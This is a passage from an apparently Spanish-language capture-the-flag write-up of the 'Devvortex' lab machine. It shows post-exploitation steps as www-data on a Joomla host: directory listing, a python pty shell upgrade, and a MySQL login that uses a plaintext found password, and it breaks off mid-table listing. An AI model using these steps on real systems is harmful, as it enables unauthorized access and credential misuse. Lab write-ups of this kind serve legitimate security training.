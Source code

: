 www-data@devvortex:~/dev.devvortex.htb/administrator$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Sep 26 19:16 .
drwxr-xr-x 19 root  root  4096 Oct 26 15:12 ..
drwxr-xr-x  3 logan logan 4096 Nov 21 11:04 logan

www-data@devvortex:~/dev.devvortex.htb/administrator$ ls
ls
cache
components
help
includes
index.php
language
logs
manifests
modules
templates

www-data@devvortex:~/dev.devvortex.htb/administrator$ cd templates
www-data@devvortex:~/dev.devvortex.htb/administrator/templates$ ls
atum
system

www-data@devvortex:~/dev.devvortex.htb/administrator/templates$ cd atum
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ ls
component.php
cpanel.php
error.php
error_full.php
error_login.php
html
index.php
joomla.asset.json
login.php
templateDetails.xml

www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$

ingresamos el siguiente comando para genera una seudo terminal con python:

python3 -c "import pty;pty.spawn('/bin/bash')"

ingresamos a mysql 

mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##

mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |